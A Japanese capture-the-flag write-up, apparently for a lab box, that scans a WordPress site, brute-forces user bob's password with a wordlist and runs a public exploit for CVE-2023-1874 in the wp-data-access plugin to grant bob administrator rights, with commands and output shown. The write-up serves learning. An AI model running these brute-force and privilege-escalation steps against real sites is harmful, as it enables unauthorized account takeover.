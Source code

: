 
```shell
wpscan --url http://breakme.thm/wordpress --usernames bob
```

```
[+] wp-data-access
 | Location: http://breakme.thm/wordpress/wp-content/plugins/wp-data-access/
 | Latest Version: 4.1.3 (up to date)
 | Last Updated: 2021-03-15T17:18:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.3.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://breakme.thm/wordpress/wp-content/plugins/wp-data-access/readme.txt
```

bob に対してパスワードブルートフォースをかけたら成功した。

```shell
wpscan --url http://breakme.thm/wordpress --usernames bob --passwords /usr/share/wordlists/rockyou.txt

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - bob / soccer
Trying bob / soccer Time: 00:00:00 <                      > (30 / 14344421)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bob, Password: [REDACTED]
```

### CVE-2023-1874

wp-data-access に権限昇格の脆弱性がある。

https://www.tenable.com/plugins/was/114024

https://github.com/thomas-osgood/cve-2023-1874

```shell
$ export TARGETIP=10.10.125.202
export TARGETPORT=80
export WPPATH=wordpress
export WPUSERNAME=bob
export WPPASSWORD=[REDACTED]

python3 cve20231874.py $TARGETIP $TARGETPORT -u $WPUSERNAME -p $WPPASSWORD --path $WPPATH

============================================================
                     Target Information
============================================================
[i] Target IP: 10.10.125.202
[i] Target Port: 80
[i] Scheme: http
============================================================
[+] cookies set
[+] login success
[+] profile source successfully grabbed
[+] wpnonce: 9553cfde67
[+] userid: 2
[+] from: profile
[+] color-nonce: 1f59a63561
[+] admin privileges successfully granted to "bob"
[+] exploit completed succesfully
```
